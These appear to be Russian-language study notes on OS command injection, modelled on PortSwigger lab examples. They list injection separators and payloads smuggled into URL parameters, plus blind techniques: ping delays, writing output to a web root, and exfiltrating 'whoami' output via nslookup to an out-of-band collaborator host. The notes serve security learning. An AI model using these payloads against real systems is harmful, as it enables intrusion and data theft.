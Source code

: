 [OS command injection](https://portswigger.net/web-security/os-command-injection)

Unix binaries: [GTOFBins](https://gtfobins.github.io/)
Windows binaries: [LOLBAS](https://lolbas-project.github.io/)

# Выполнение произвольных команд

Запрос:

```
https://insecure-website.com/stockStatus?productID=381&storeID=29
```

Команда:

```
stockreport.pl 381 29
```

Инъекция (можно закодировать в URL)

```
& whoami &
```

Команда примет вид:

```
stockreport.pl & whoami & 29
```

# Полезные команды

![Some useful commands](../../images/OS_command_injection_useful_commands.jpg)

# Слепая инъекция команд

На примере отправки отзыва о сайте:

```
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

### Временная задержка

```
; ping -c 10 127.0.0.1 ;
```

### Перенаправления вывода

Например, если приложение обслуживает статические ресурсы из файловой системы /var/www/static, то можно:

```
; whoami > /var/www/static/whoami.txt ;
```

### Использование out-of-band (OAST) методов

```
; nslookup h0ipdd0o7ubzva6ghoq96993buhl5a.burpcollaborator.net ;
```

Эксфильтрация `whoami` (%60 == &#0096;):

```
; nslookup %60whoami%60.o1qp1jygitgcuf3cj8xz5zi3jupkd9.burpcollaborator.net ;
```

# Способы инъекции

Следующие разделители работают на Windows и Unix-based системах:

```
&
&& 
|
||
```

Следующие разделители работают только на Unix-based системах:

```
;
newline (0x0a или \n)
```

Как работают разделители:

```
cmd1; cmd2 - cmd2 выполняется в любом случае
cmd1 && cmd2 - cmd2 выполняется, если cmd1 успешно выполняется
cmd1 || cmd2 - cmd2 выполняется, если cmd1 возвращает ошибку
```

В Unix-based системах также можно использовать &#0096; (бэктики) или $:

```
` injected command `
$( injected command )
```
